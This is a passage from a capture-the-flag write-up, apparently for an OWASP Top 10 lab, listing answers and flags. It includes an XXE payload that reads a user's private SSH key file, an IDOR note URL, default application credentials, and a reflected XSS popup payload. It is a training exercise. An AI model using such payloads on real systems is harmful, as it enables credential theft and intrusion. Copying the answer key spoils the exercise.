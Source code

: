 ### Where is falcon's SSH key located?
> *Answer:* /home/falcon/.ssh/id_rsa

### What are the first 18 characters for falcon's private key
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
...MIIEogIBAAKCAQEA7b...
```
> *Answer:* MIIEogIBAAKCAQEA7b


<br><br>
# [Severity 5] Broken Access Control (IDOR Challenge)

### Look at other users notes. What is the flag?
```
http://<machine ip>/note.php?note=0
flag{fivefourthree}
```
> *Answer:* flag{fivefourthree}


<br><br>
# [Severity 6] Security Misconfiguration

### Hack into the webapp, and find the flag!
Google Search <a href="https://github.com/NinjaJc01/PensiveNotes" target="_blank">PensiveNotes - A note taking app</a>
```
...
After downloading and compiling PensiveNotes, log in using the default credentials pensive:PensiveNotes
Make sure you change this password immediately!
```
> *Answer:* thm{4b9513968fd564a87b28aa1f9d672e17}


<br><br>
# [Severity 7] Cross-site Scripting

### On the "Reflected XSS" tab; craft a reflected XSS payload that will cause a popup saying "Hello".
```
<script>alert(“Hello”)</script>
```
> *Answer:* ThereIsMoreToXSSThanYouThink
